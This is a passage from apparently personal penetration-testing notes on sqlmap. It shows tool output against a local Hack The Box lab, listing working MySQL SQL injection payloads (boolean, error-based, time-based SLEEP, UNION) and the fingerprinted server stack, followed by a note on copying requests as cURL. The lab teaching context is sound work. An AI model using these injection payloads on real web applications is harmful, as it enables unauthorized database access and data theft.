 ```bash
    Payload: id=test' OR NOT 7718=7718#&Submit=Submit

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=test' OR (SELECT 6333 FROM(SELECT COUNT(*),CONCAT(0x7176627071,(SELECT (ELT(6333=6333,1))),0x71786b7071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- XGxV&Submit=Submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=test' AND (SELECT 8341 FROM (SELECT(SLEEP(5)))BInm)-- SaYq&Submit=Submit

    Type: UNION query
    Title: MySQL UNION query (NULL) - 2 columns
    Payload: id=test' UNION ALL SELECT NULL,CONCAT(0x7176627071,0x435a6a45595a5654536763586e45714c5748486a74697668486d7463614b674548436a7971586f55,0x71786b7071)#&Submit=Submit
---
[12:51:10] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 9 (stretch)
web application technology: Apache 2.4.25
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[12:51:10] [INFO] fetched data logged to text files under '/home/x7331/.local/share/sqlmap/output/127.0.0.1'

[*] ending @ 12:51:10 /2024-06-05/
```
{% endcode %}

### cURL

{% hint style="info" %}
The lab used is from the [Web Enumeration & Exploitation](https://academy.hackthebox.com/module/163/section/1544) section of the[ Attacking Enterprise Networks](https://academy.hackthebox.com/module/details/163) module from HTB.
{% endhint %}

Copy as `cURL` from browser's Network tab (Figure 1).

<figure><img src="../../.gitbook/assets/sqlmap_curl_copy.png" alt=""><figcaption><p>Figure 1: Copying the cURL command via Mozilla's Network tab.</p></figcaption></figure>
